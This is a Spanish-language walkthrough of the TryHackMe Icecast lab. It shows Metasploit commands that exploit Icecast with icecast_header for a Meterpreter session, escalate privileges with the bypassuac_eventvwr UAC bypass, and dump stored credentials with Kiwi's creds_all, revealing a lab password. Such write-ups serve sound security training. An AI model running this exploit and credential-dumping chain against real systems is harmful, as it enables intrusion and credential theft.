# Guía Paso a Paso: Explotación de Icecast en TryHackMe

1. Escaneo de Puertos
Antes de lanzar cualquier exploit, es crucial identificar los puertos abiertos y los servicios que se están ejecutando en el sistema objetivo. Para ello, puedes usar herramientas como Nmap.

Paso 1: Ejecuta un escaneo básico de puertos con Nmap:













2. Búsqueda del Módulo de Explotación
En esta etapa, buscarás un módulo relacionado con Icecast que se pueda explotar.



Paso 2: Inicia Metasploit Framework (msf6):
 ```bash
msconsole
```
Paso 3: Busca módulos relacionados con Icecast:
 ```bash
search icecast
```
Esto te muestra un módulo de explotación llamado exploit/windows/http/icecast_header.




3. Configuración del Módulo de Explotación
Ahora, configuraremos el módulo de explotación para apuntar al sistema objetivo.

Paso 4: Selecciona el módulo de explotación:

```bash
use 0
```
 
(El número 0 corresponde al módulo de Icecast que aparece en la lista).

Paso 5: Verifica las opciones del módulo:

 ```bash
show options
```
 


Aquí configurarás los siguientes parámetros:

RHOSTS: La dirección IP del objetivo (10.10.237.61).
RPORT: El puerto del servicio Icecast (8000).
LHOST: Tu dirección IP (10.21.128.154).
Foto aquí



4. Ejecución del Exploit
En esta etapa, lanzamos el exploit para obtener acceso al sistema.

Paso 6: Ejecuta el exploit:

 ```bash
run
```


Esto inicia una sesión Meterpreter en el sistema objetivo.







5. Interacción con la Sesión de Meterpreter
Una vez dentro de la sesión de Meterpreter, puedes realizar varias acciones de reconocimiento y control.

Paso 7: Verifica el usuario actual:

 ```bash
getuid
```

El resultado será algo como Dark-PC\Dark, lo que indica que tienes acceso como ese usuario.



Paso 8: Obtén información del sistema:

 ```bash
sysinfo
```



6. Escalada de Privilegios
Para obtener mayores privilegios en el sistema, utilizamos un módulo que sugiere exploits locales.

Paso 9: Usa el módulo Local Exploit Suggester:

 ```bash
search suggester
use post/multi/recon/local_exploit_suggester
```



Este módulo te sugerirá varios exploits potenciales, como bypassuac_eventvwr.

```bash
set SESSION 1
run
```


Paso 10: Selecciona y ejecuta el exploit bypassuac_eventvwr:

 ```bash
use exploit/windows/local/bypassuac_eventvwr
set SESSION 1
set LHOST 10.21.128.154
run
```
 
 
Configuramos

 


Este intento trata de eludir el UAC (User Account Control) para obtener mayores privilegios.

 

Paso 11: Verifica si la escalada de privilegios fue exitosa:

 ```bash
getprivs
```
 


Ahora Ejecutamos load kiwi

Cargar Kiwi en Meterpreter:
Esto carga la extensión Kiwi en Meterpreter, lo que te da acceso a funciones avanzadas como la extracción de credenciales.

Obtener todas las credenciales almacenadas en el sistema:

`creds_all`

Este comando extrae las credenciales almacenadas en la memoria del sistema objetivo.

Interpretación de los datos extraídos:
+ msv credentials: Contiene los hashes LM, NTLM y SHA1 de la cuenta Dark en el sistema Dark-PC.
+ wdigest credentials: Muestra credenciales en texto claro. En este caso, encontramos la contraseña Password01!.
+ tspkg credentials: También muestra la contraseña en texto claro.
+ kerberos credentials: Contiene credenciales relacionadas con Kerberos.




